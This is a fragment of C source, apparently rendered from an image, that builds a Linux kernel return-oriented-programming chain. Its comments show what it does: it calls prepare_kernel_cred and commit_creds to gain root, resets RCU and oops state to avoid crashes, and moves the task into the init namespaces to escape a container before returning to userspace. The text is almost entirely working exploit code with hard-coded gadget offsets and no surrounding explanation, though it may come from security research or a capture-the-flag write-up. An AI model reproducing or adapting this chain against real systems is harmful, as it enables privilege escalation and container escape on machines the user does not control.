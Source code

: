 ```c
    rop = (uint64_t *)&data[0x88];

    // oops_in_progress = 1 (Bypass schedule while atomic)
    rop[idx++] = kbase + 0xffffffff811481f3; // pop rdi ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = 1;                          // 1
    rop[idx++] = kbase + 0xffffffff810fb7dd; // pop rsi ; ret
    rop[idx++] = kbase + 0xffffffff8419f478; // oops_in_progress
    rop[idx++] = kbase + 0xffffffff81246359; // mov qword ptr [rsi], rdi ; jmp 0xffffffff82404440 (retpoline)

    // creds = prepare_kernel_cred(0)
    rop[idx++] = kbase + 0xffffffff811481f3; // pop rdi ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = 0;                          // 0
    rop[idx++] = kbase + 0xffffffff811139d0; // prepare_kernel_cred

    // commit_creds(creds)
    rop[idx++] = kbase + 0xffffffff811e3633; // pop rcx ; ret
    rop[idx++] = 0;                          // 0
    rop[idx++] = kbase + 0xffffffff8204933b; // mov rdi, rax ; rep movsq qword ptr [rdi], qword ptr [rsi] ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = kbase + 0xffffffff811136f0; // commit_creds

    // current = find_task_by_vpid(getpid())
    rop[idx++] = kbase + 0xffffffff811481f3; // pop rdi ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = getpid();                   // pid
    rop[idx++] = kbase + 0xffffffff8110a0d0; // find_task_by_vpid

    // current += offsetof(struct task_struct, rcu_read_lock_nesting)
    rop[idx++] = kbase + 0xffffffff810fb7dd; // pop rsi ; ret
    rop[idx++] = 0x46c;                      // offsetof(struct task_struct, rcu_read_lock_nesting)
    rop[idx++] = kbase + 0xffffffff8107befa; // add rax, rsi ; jmp 0xffffffff82404440 (retpoline)

    // current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
    rop[idx++] = kbase + 0xffffffff811e3633; // pop rcx ; ret
    rop[idx++] = 0;                          // 0
    rop[idx++] = kbase + 0xffffffff8167104b; // mov qword ptr [rax], rcx ; jmp 0xffffffff82404440 (retpoline)

    // task = find_task_by_vpid(1)
    rop[idx++] = kbase + 0xffffffff811481f3; // pop rdi ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = 1;                          // pid
    rop[idx++] = kbase + 0xffffffff8110a0d0; // find_task_by_vpid

    // switch_task_namespaces(task, init_nsproxy)
    rop[idx++] = kbase + 0xffffffff811e3633; // pop rcx ; ret
    rop[idx++] = 0;                          // 0
    rop[idx++] = kbase + 0xffffffff8204933b; // mov rdi, rax ; rep movsq qword ptr [rdi], qword ptr [rsi] ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = kbase + 0xffffffff810fb7dd; // pop rsi ; ret
    rop[idx++] = kbase + 0xffffffff83661680; // init_nsproxy (from parse_mount_options)
    rop[idx++] = kbase + 0xffffffff81111c80; // switch_task_namespaces

    // Back to userspace
    rop[idx++] = kbase + 0xffffffff822010c6; // swapgs_restore_regs_and_return_to_usermode + 54
    rop[idx++] = 0;
    rop[idx++] = 0;
    rop[idx++] = (uint64_t)&getroot;
    rop[idx++] = usr_cs;
    rop[idx++] = usr_rflags;
    rop[idx++] = (uint64_t)(stack + 0x80000);
    rop[idx++] = usr_ss;
```
